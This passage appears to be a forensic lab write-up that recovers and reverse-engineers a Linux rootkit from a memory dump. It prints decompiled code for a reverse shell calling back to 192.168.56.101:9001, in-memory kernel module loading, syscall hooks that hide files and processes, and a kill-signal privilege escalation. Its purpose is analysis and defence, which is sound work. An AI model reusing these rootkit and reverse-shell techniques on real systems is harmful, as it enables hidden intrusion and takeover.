vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.Files | fzf
0x8befcc063800	/	252:0	17	0x8befcbfc5908	REG	109	109	-rwxrwxr-x	2025-07-11 21:27:53.625663 UTC	2025-07-11 21:27:39.755732 UTC	2025-07-11 21:27:45.437571 UTC	/shell	442880
```

```
uv run vol -f dumpmem_linux_root_kit -s symbols linux.pagecache.InodePages --inode 0x8befcbfc5908 --dump
file inode_0x8befcbfc5908.dmp 
```

```
vagrant@linux-root-kit:~$ file inode_0x8befcbfc5908.dmp 
inode_0x8befcbfc5908.dmp: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=805a820b2000eb4476724f4861a57659c9488994, for GNU/Linux 3.2.0, not stripped
```

# Reversing of `shell binary`

Using Ghidra with defaults: 





```c
undefined8 main(int param_1,undefined8 *param_2)

{
  int iVar1;
  uint __fd;
  undefined8 uVar2;
  int *piVar3;
  char *pcVar4;
  long in_FS_OFFSET;
  sockaddr local_a8;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 < 2) {
    fprintf(stderr,"Invalid command. Usage: %s [load|rsh]\n",*param_2);
    uVar2 = 1;
  }
  else {
    iVar1 = strcmp((char *)param_2[1],"load");
    if (iVar1 == 0) {
      fwrite("loading module",1,0xe,stdout);
      load_module();
      uVar2 = 0;
    }
    else {
      iVar1 = strcmp((char *)param_2[1],"rsh");
      if (iVar1 == 0) {
        fwrite("starting shell\n",1,0xf,stdout);
        daemonize();
        do {
          while( true ) {
            while( true ) {
              __fd = socket(2,1,0);
              if (-1 < (int)__fd) break;
              piVar3 = __errno_location();
              pcVar4 = strerror(*piVar3);
              snprintf(local_98,0x80,"socket failed: %s",pcVar4);
              log_msg(local_98);
              sleep(5);
            }
            local_a8.sa_family = 2;
            local_a8.sa_data._0_2_ = htons(0x2329);
            local_a8.sa_data._2_4_ = inet_addr("192.168.56.101");
            snprintf(local_98,0x80,"Connecting to %s:%d","192.168.56.101",0x2329);
            log_msg(local_98);
            snprintf(local_98,0x80,"About to call connect on s=%d",(ulong)__fd);
            log_msg(local_98);
            iVar1 = connect(__fd,&local_a8,0x10);
            if (iVar1 != 0) break;
            log_msg("Connection established, spawning shell");
            dup2(__fd,0);
            dup2(__fd,1);
            dup2(__fd,2);
            execl("/bin/bash","bash",0);
            piVar3 = __errno_location();
            pcVar4 = strerror(*piVar3);
            snprintf(local_98,0x80,"execl failed: %s",pcVar4);
            log_msg(local_98);
            close(__fd);
            sleep(5);
          }
          piVar3 = __errno_location();
          pcVar4 = strerror(*piVar3);
          snprintf(local_98,0x80,"connect failed: %s",pcVar4);
          log_msg(local_98);
          close(__fd);
          sleep(5);
        } while( true );
      }
      uVar2 = 1;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```
The disassembly view in Ghidra (see images above) reveals that the `main` function begins by checks the command‑line argument count. If fewer than two arguments are provided, it prints an error message and exits.


If the first argument equals the string `"load"`, `main` writes `loading module` to standard output, calls the `load_module` function, and returns 0. If the first argument equals `"rsh"`, it writes `starting shell` to standard output, calls `daemonize()`, and then enters the `remote_shell_loop`, which never returns. Any other argument also causes an exit code of 1.

## load_module Branch
```c
int load_module(void)

{
  long lVar1;
  int *piVar2;
  char *pcVar3;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  lVar1 = syscall(0xaf,&rkit_ko,(ulong)rkit_ko_len,&DAT_00102035);
  if ((int)lVar1 == 0) {
    log_msg("Module loaded via init_module !!!");
  }
  else {
    piVar2 = __errno_location();
    pcVar3 = strerror(*piVar2);
    snprintf(local_98,0x80,"init_module failed: %s",pcVar3);
    log_msg(local_98);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return (int)lVar1;
}
```

It calls the syscall number `0xaf`, which is __NR_init_module on Linux .

The `load_module` function uses the Linux kernel syscall `init_module` (syscall number `0xAF`) to load the embedded module code directly from memory. It invokes `syscall(__NR_init_module, &rkit_ko, rkit_ko_len, "")` ([Lookup table for syscalls](https://syscalls.mebeim.net/?table=x86/64/x64/latest)).



This approach ensures the module never appears on disk - no .ko file is written. The kernel module is loaded entirely from a byte array embedded in the userland loader binary.

After this the programm returns.

## rsh Branch

When the argument is `rsh`, after writing starting shell, the program calls `daemonize()`.
```c
    iVar1 = strcmp((char *)param_2[1],"rsh");
        if (iVar1 == 0) {
        fwrite("starting shell\n",1,0xf,stdout);
        daemonize();

        ---snippet--
    }
```


### daemonize Function

```c

void daemonize(void)

{
  __pid_t _Var1;
  
  _Var1 = fork();
  if (_Var1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (0 < _Var1) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = setsid();
  if (_Var1 < 0) {
    log_msg("setsid failed");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  close(0);
  close(1);
  close(2);
  _Var1 = getpid();
  kill(_Var1,0x3f);
  return;
}

```
This helper function forks and has the parent exit immediately. The child becomes session leader via `setsid()`, closes standard file descriptors 0, 1, and 2 (`stdin`, `stdout` and `stderr`), and finally sends itself signal `0x3F`  (`63`) to hide from typical process listings. This is later discused as on of the techniques from the Kernel module. After daemonization, control enters the "revshell loop".


### Reverse Shell

```c
        do {
          while( true ) {
            while( true ) {
              __fd = socket(2,1,0);
              if (-1 < (int)__fd) break;
              piVar3 = __errno_location();
              pcVar4 = strerror(*piVar3);
              snprintf(local_98,0x80,"socket failed: %s",pcVar4);
              log_msg(local_98);
              sleep(5);
            }
            local_a8.sa_family = 2;
            local_a8.sa_data._0_2_ = htons(0x2329);
            local_a8.sa_data._2_4_ = inet_addr("192.168.56.101");
            snprintf(local_98,0x80,"Connecting to %s:%d","192.168.56.101",0x2329);
            log_msg(local_98);
            snprintf(local_98,0x80,"About to call connect on s=%d",(ulong)__fd);
            log_msg(local_98);
            iVar1 = connect(__fd,&local_a8,0x10);
            if (iVar1 != 0) break;
            log_msg("Connection established, spawning shell");
            dup2(__fd,0);
            dup2(__fd,1);
            dup2(__fd,2);
            execl("/bin/bash","bash",0);
            piVar3 = __errno_location();
            pcVar4 = strerror(*piVar3);
            snprintf(local_98,0x80,"execl failed: %s",pcVar4);
            log_msg(local_98);
            close(__fd);
            sleep(5);
          }
          piVar3 = __errno_location();
          pcVar4 = strerror(*piVar3);
          snprintf(local_98,0x80,"connect failed: %s",pcVar4);
          log_msg(local_98);
          close(__fd);
          sleep(5);
        } while( true );
```

In the `do-while` loop, the binary continuously attempts to open an `IPv4 TCP` socket in `SOCK_STREAM` mode. If socket creation fails, it logs the error and sleeps five seconds before retrying. Once a socket is obtained, it configures struct sockaddr for target address `192.168.56.101` port `0x2329` (`9001`), logs its intent to connect, and calls `connect()`. On a successful connection, it logs Connection established, spawning shell, duplicates the socket descriptor onto standard input, output, and error via `dup2()`, and then invokes `/bin/bash` via `execl()`. If execl fails, it logs the error, closes the socket, sleeps five seconds, and repeats. 


## Summary of Behavior

### Behavioral Summary
- The binary operates in two modes: `load` (injects the kernel module from memory, leaving no on-disk artifact) and `rsh` (daemonizes, hides itself, and maintains a persistent reverse shell to the C2 server).
- A udev rule (`RUN+="/shell load"`) ensures the loader runs at every boot, re-injecting the module for persistence.
- The design leverages udev’s short-lived, network-isolated context for stealthy module injection, while the reverse shell is launched independently for unrestricted attacker access.


# Reversing of Kernel Module


It doesn’t show your rkit (it should be visible here!?):
```
uv run vol -f dumpmem_linux_root_kit -s symbols linux.lsmod | grep rkit
```

--> Because its hidden in the prpcfs
```
vagrant@linux-root-kit:~$ uv run vol -f dumpmem_linux_root_kit -s symbols linux.modxview.Modxview | grep rkit
Name	Address	     In procfs	In sysfs	   In scan	Taints
rkit	0xffffc08e65c0	False	False	True	OOT_MODULE,UNSIGNED_MODULE
```

```
uv run vol -f dumpmem_linux_root_kit -s symbols linux.module_extract.ModuleExtract --base 0xffffc08e65c0
Volatility 3 Framework 2.26.0
Progress:  100.00		Stacking attempts finished           
Base	File Size	File output

0xffffc08e65c0	498984	kernel_module.rkit.0xffffc08e65c0.elf
```

```
vagrant@linux-root-kit:~$ sha256sum kernel_module.rkit.0xffffc08e65c0.elf 
5f9e96f65c4abe7f6865c8f4703e509aa25b58f1c76dc0f5d74090f80471351e  kernel_module.rkit.0xffffc08e65c0.elf
```

Disassembling with Gidra:



These function calls only contain the names, not the code. They are split into the `FUN_*` functions, which are extremely unreadable. For example:




Therefore, we try to extract the kernel module not from memory, but from the userland binary (`shell`):

```c
int load_module(void)

{
  --snip--
  lVar1 = syscall(0xaf,&rkit_ko,(ulong)rkit_ko_len,&DAT_00102035);
  --snip--
}
```
From this, we can see that the kernel module is stored in `rkit_ko` and its length in `rkit_ko_len`. We can search for these symbols in Ghidra.





The start of this is `00104020` (end `0016bedf`) and the length is:

```
                             rkit_ko_len                                     XREF[2]:     Entry Point(*), 
                                                                                          load_module:001015ac(R)  

        0016bee0 c0 7e 06 00     undefined4 00067EC0h
```
→ Swap the order of bytes (or read the restored value)
→ Length: 67EC0

Check:
```
python3 -c 'print(hex(0x016bedf - 0x00104020 + 1))'
0x67ec0
```

## Python script to extract Kernel Module


When a file is loaded into memory—in this case, the ELF file—it is not mapped 1:1 but with offsets that are specified here:

For our program at position `0x00104020`, we need to check what offset Ghidra adds:


It shows an offset of `+ 0x00100000`.

```
─$ readelf -l inode_0x8befcbfc5908.dmp
 
  # <added for clarity>  
  LOAD           Offset                  VirtAddr     PhysAddr
                  FileSiz                   MemSiz     Flags  Align
  # <added for clarity>  
  -- snip -- 
  LOAD           0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000be0 0x0000000000000be0  R      0x1000
  LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
                 0x0000000000000a11 0x0000000000000a11  R E    0x1000
  LOAD           0x0000000000002000 0x0000000000002000 0x0000000000002000
                 0x00000000000002cc 0x00000000000002cc  R      0x1000
  LOAD           0x0000000000002d00 0x0000000000003d00 0x0000000000003d00
                 0x00000000000681e4 0x0000000000068230  RW     0x1000

 -- snip --
```

Here, we look up our virtual address `0x00104020`.  

First, we need to remove the offset added by Ghidra:
`0x00004020` = `0x00104020` − `0x00100000`.


Therefore, follow these steps for each LOAD segment:

### 1. Create Range: `[VirtAddr, VirtAddr + MemSiz/FileSiz]`
For example, for the first LOAD segment:
```
[VirtAddr          , VirtAddr           +    MemSiz/FileSiz ]

[0x0000000000000000, 0x0000000000000000 + 0x0000000000000be0]

[0x0, 0xbe0]
```


### 2. Compare the target address:

`0x4020` is inside the range `[0x3d00, 0x3d00 + 0x68230]`.


### 3. Continue until a match is found:
`0x4020` is inside the range `[0x3d00, 0x3d00 + 0x68230]`.


The offset between virtual space and the disk is calculated as `VirtAddr − Offset`, or in this example:

0x3d00 - 0x2d00 = 0x1000

Therefore, the base address of the ELF binary is `0x3020`.

So we carve it out:
```
with open("./inode_0x8befcbfc5908.dmp", "rb") as f: # or shell
 f.seek(0x3020)
 data = f.read(0x67ec0)

with open("./extracted_module", "wb") as f:
 f.write(data)

```

```
file extracted_module
extracted_module: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=c5224df8e6f37d51f6b8f9cd9f6cc1120ab1d284, with debug_info, not stripped

sha256sum extracted_module 
0f06ac286c1914ee7b2d252c8edf8860d9894bd3e1e0575ab869cfbbdd1b6f56  extracted_module

``` 


And with this approach we get much better pseudo C output :D.



## rkit_init


The start of every kernel module is the `{module_name}_init`.
The pseudo C here is:

```c
int rkit_init(void)

{
  int iVar1;
  long lVar2;
  undefined1 *hook;
  
  hook = hooks;
  lVar2 = 0;
  do {
    iVar1 = fh_install_hook((ftrace_hook *)hook);
    if (iVar1 != 0) {
      if (lVar2 != 0) {
        fh_remove_hook((ftrace_hook *)(hooks + (-(int)(lVar2 + -1) & 0xe0)));
        if (lVar2 + -1 != 0) {
          fh_remove_hook((ftrace_hook *)hooks);
        }
      }
      return iVar1;
    }
    lVar2 = lVar2 + 1;
    hook = (undefined1 *)((long)hook + 0xe0);
  } while (lVar2 != 3);
  if (module_hidden == 0) {
    (__this_module.list.next)->prev = __this_module.list.prev;
    (__this_module.list.prev)->next = __this_module.list.next;
    prev_module = __this_module.list.prev;
    __this_module.list.next = (list_head *)0xdead000000000100;
    __this_module.list.prev = (list_head *)0xdead000000000122;
    kobject_del(0x1019d0);
    module_hidden = 1;
  }
  _printk(&DAT_00100bf9);
  msleep(5000);
  _printk(&DAT_00100da8);
  iVar1 = call_usermodehelper(argv.27,&argv.27,envp.28,1);
  if (iVar1 != 0) {
    _printk(&DAT_00100dd8,iVar1);
    return 0;
  }
  _printk(&DAT_00100e08);
  return 0;
}


In the first part, it installs 3 hooks with the help of ftrace.

```c
hook = hooks;
  lVar2 = 0;
  do {
    iVar1 = fh_install_hook((ftrace_hook *)hook);
    if (iVar1 != 0) {
      if (lVar2 != 0) {
        fh_remove_hook((ftrace_hook *)(hooks + (-(int)(lVar2 + -1) & 0xe0)));
        if (lVar2 + -1 != 0) {
          fh_remove_hook((ftrace_hook *)hooks);
        }
      }
      return iVar1;
    }
    lVar2 = lVar2 + 1;
    hook = (undefined1 *)((long)hook + 0xe0);
  } while (lVar2 != 3);
```

## Hooked Functions

Looking at the symbol tree, we assume the hooks are the following:


 - orig_getdents (`"__x64_sys_getdents"`)
 - orig_getdents64 (`"__x64_sys_getdents64"`)
 - orig_kill (`"__x64_sys_kill"`)

### Kill Hook


This function, `__pfx_hook_kill`, is a hook for the kill system call, designed to intercept process `signals` and implement `custom behaviors` based on the signal number passed. It's typical in rootkits to repurpose rarely used or `unused signal` numbers to trigger stealthy functionality like `privilege escalation`, `hiding processes`, or `unloading` the rootkit.


Splitting the code up, we get 3 different signal numbers:
- 64: Privilege escalation
- 63: Hide process
- 62: Unload module


```c
undefined1  [16] __pfx_hook_kill(pt_regs *param_1)

{
  uint uVar1;
  list_head *plVar2;
  int iVar3;
  long lVar4;
  undefined1 auVar5 [16];
  
  uVar1 = (uint)param_1->di;
  iVar3 = (int)param_1->si;

```
`iVar3` in this case is the pid which should recieve the kill signal.
`uVar1` is the target PID.
```c
  if (iVar3 == 0x40) {
    _printk(&DAT_00100e38,uVar1);
    lVar4 = prepare_creds();
    if (lVar4 != 0) {
      *(undefined8 *)(lVar4 + 8) = 0;
      *(undefined8 *)(lVar4 + 0x10) = 0;
      *(undefined8 *)(lVar4 + 0x18) = 0;
      *(undefined8 *)(lVar4 + 0x20) = 0;
      commit_creds(lVar4);
    }
  }
```

If the kill signal is `0x40` (64), it logs the call and zeroes out UID, GID, EUID, EGID, etc., making the calling process root. Effectively elevating the process to root privileges. A user can call this with a simple `kill -64 1` and elevate their rights to `root`.


```c
  else if (iVar3 == 0x3f) {
    _printk(&DAT_00100c09,uVar1);
    sprintf(hide_pid,"%d",(ulong)uVar1);
  }
```

If the kill signal is `0x3f` (63), it adds the PID to a `hide_pid` array, which is used in another hook to hide the process itself.

```c
  else {
    if (iVar3 != 0x3e) {
      auVar5._0_8_ = (*orig_kill)(param_1);
      auVar5._8_8_ = 0;
      return auVar5;
    }
    _printk(&DAT_00100e60);
    plVar2 = prev_module;
    if (module_hidden != 0) {
      __this_module.list.next = prev_module->next;
      (__this_module.list.next)->prev = &__this_module.list;
      __this_module.list.prev = plVar2;
      plVar2->next = (list_head *)0x101988;
      module_hidden = 0;
    }
    fh_remove_hook((ftrace_hook *)hooks);
    fh_remove_hook((ftrace_hook *)(hooks + 0xe0));
    fh_remove_hook((ftrace_hook *)(hooks + 0x1c0));
  }
  return ZEXT816(0);
}
```

If the kill signal is `0x3e` (62), it restores the double-linked list for the kernel modules, removes all of the hooks, and exits the kernel module.

```c
if (iVar3 != 0x3e) {
      auVar5._0_8_ = (*orig_kill)(param_1);
      auVar5._8_8_ = 0;
      return auVar5;
    }
```


If the final branch is not our signal `0xfe`, it just calls the normal signals.
### Getdents(64) Hook


The `getdents` and `getdents64` syscalls are both hooked by the rootkit. This report focuses on the `getdents` function, as the logic for `getdents64` is analogous. For clarity, non-essential code has been omitted from the snippet below.

```c
--snip--
int hook_getdents(pt_regs *regs)

{
 --snip--
  uVar2 = regs->si;
  uVar6 = (*orig_getdents)(regs);
  iVar5 = (int)uVar6;
  --snip--
  if (0 < iVar5) {
    uVar15 = (ulong)iVar5;
    __dest = (void *)__kmalloc(uVar15,0xdc0);
    if (__dest != (void *)0x0) {
      __check_object_size(__dest,uVar15,0);
      lVar7 = _copy_from_user(__dest,uVar2,uVar15);
      if (lVar7 == 0) {
        uVar16 = 0;
        pvVar13 = (void *)0x0;
```

The original `getdents` syscall is invoked to copy the directory entries from user space into kernel space for further inspection and manipulation.

```c
  --snip--
  if (0 < iVar5) {
    uVar15 = (ulong)iVar5;
    __dest = (void *)__kmalloc(uVar15,0xdc0);
    if (__dest != (void *)0x0) {
      __check_object_size(__dest,uVar15,0);
      lVar7 = _copy_from_user(__dest,uVar2,uVar15);
      if (lVar7 == 0) {
        uVar16 = 0;
        pvVar13 = (void *)0x0;
        do {
          pvVar1 = (void *)((long)__dest + uVar16);
          if (hide_prefix[0] != '\0') {
            __n = strnlen(hide_prefix,0xff);
            --snip--
              if (__n != 0xff) {
                iVar5 = strncmp((char *)((long)pvVar1 + 0x12),hide_prefix,__n);
                if (iVar5 != 0) goto LAB_001004fb;
                goto LAB_001004cb;
              }
            }
```


The code iterates over all directory entries returned by the syscall. If an entry's name matches the prefix specified in `hide_prefix`, that entry is excluded from the results, effectively hiding files or directories with that prefix from userland tools.




In this case, the prefix is set to `_rkit`, so any file or directory beginning with this string will be concealed.


```c
            --snip-- 
          if ((hide_pid[0] == '\0') ||
             (iVar5 = strcmp((char *)((long)pvVar1 + 0x12),hide_pid), iVar5 != 0)) {
LAB_001004de:
            __n_00 = (ulong)(int)uVar6;
            uVar16 = uVar16 + *(ushort *)((long)pvVar1 + 0x10);
            pvVar13 = pvVar14;
          }
```


Similarly, the code checks for process IDs that match those stored in the `hide_pid` array (populated via the kill hook with signal `63`). Any matching process is omitted from the directory listing, thereby hiding it from standard process enumeration tools.

```c
        --snip--
        _copy_to_user(uVar2,__dest,__n_00);
      }
      iVar5 = (int)uVar6;
      kfree(__dest);
    }
  }
  return iVar5;
}
```


Once all filtering is complete, the modified list of entries is copied back to user space and returned, ensuring hidden files and processes remain undetectable to typical inspection methods.


## Module Hiding

The module achieves stealth by directly manipulating the kernel's module list structure, removing itself from the double-linked list. As a result, it becomes invisible to the `lsmod` command and similar enumeration tools.
```c
if (module_hidden == 0) {
    (__this_module.list.next)->prev = __this_module.list.prev;
    (__this_module.list.prev)->next = __this_module.list.next;
    prev_module = __this_module.list.prev;
    __this_module.list.next = (list_head *)0xdead000000000100;
    __this_module.list.prev = (list_head *)0xdead000000000122;
```

The module also unlinks its kobject from the kernel object hierarchy, making it undetectable in `/sys/modules/`.
```c
    kobject_del(0x1019d0);
    module_hidden = 1;
  }
```

## Debug Messages

Upon successful loading, the module writes `rkit: loaded` to the kernel log using `_printk`.



It then logs `rkit: starting usermode revshell loader` to indicate the initiation of the usermode reverse shell loader.


## Reverse Shell Loader

The module invokes `call_usermodehelper` with `/shell` as the first argument and `rsh` as the second, launching the userland binary in reverse shell mode during system boot. This ensures persistence and remote access for the attacker.




## rkit_exit

The `rkit_exit` function serves as the rootkit's cleanup routine. When the kernel module is unloaded, it restores the original module list (if previously hidden) and removes all installed hooks.

```c
void rkit_exit(void)
{
  list_head *plVar1;
  plVar1 = prev_module;
  if (module_hidden != 0) {
    __this_module.list.next = prev_module->next;
    (__this_module.list.next)->prev = &__this_module.list;
    __this_module.list.prev = plVar1;
    plVar1->next = (list_head *)0x101988;
    module_hidden = 0;
  }
  fh_remove_hook((ftrace_hook *)hooks);
  fh_remove_hook((ftrace_hook *)(hooks + 0xe0));
  fh_remove_hook((ftrace_hook *)(hooks + 0x1c0));
  _printk(&DAT_00100be7);
  return;
}
```

This process ensures a clean removal, minimizing traces and reducing the risk of system instability after the rootkit is unloaded.


# Checksums

| Filename                                      | Size  | SHA256 Checksum                                                              | Description                                               |
|-----------------------------------------------|-------|------------------------------------------------------------------------------|-----------------------------------------------------------|
| dumpmem_linux_root_kit                        | 4.6G  | bcc73188e6905357a514107e4eac7557bce17b7e747aa1cca416c43f56c22367                                                                            | Full memory dump of infected system                       |
| extracted_module                              | 416K  | 0f06ac286c1914ee7b2d252c8edf8860d9894bd3e1e0575ab869cfbbdd1b6f56             | rkit kernel module (extracted from memory dump --> memory maped)           |
| extract.py                                    | 182B  | f23119742f82adb8cd2bc801cdaf79f85822fa7f55960830472bbbe0bc72ff11                                                                            | Extraction helper script                                  |
| inode_0x8befc61393a8.dmp                      | 57K   | dd9c08aa1ef1c2768bcac34ca02c6565f5e1942be82ea7801a1f65d193d4ddb5             | dmesg.log                                                  |
| inode_0x8befcbf9bd48.dmp                      | 68B   | f184eb4ffcd106951f39385d6a784e431de726ea427b98088cc89cdb30d70db3             | /etc/udev/rules.d/99-load-rootkit.rules                   |
| inode_0x8befcbfc5908.dmp                      | 433K  | 7f61a7634ece76c37c9263fc342ff2b3f742f542c759809d0b123d6228804b61             | shell                                                     |
| kernel_module.rkit.0xffffc08e65c0.elf         | 488K  | 5f9e96f65c4abe7f6865c8f4703e509aa25b58f1c76dc0f5d74090f80471351e             | rkit kernel module (extracted from shell binary)          |
| lilux_hex                                     | 13M   | cb9ec2399929bae6383148dc983b0e07571534f65293fa085adac31bf35fd543             | sliver beacon (extracted from pcap)                        |
| output.pcap                                   | 14M   | e712d6b1f7bb51a0625d0e7ce0116bfc33521eaf2cf471cf76958c8f84a67ad1                                                                            | Network capture containing Sliver beacon traffic          |

# Tools and Versions Used

| Tool/Software         | Version/Commit/Details                | Purpose/Notes                                  |
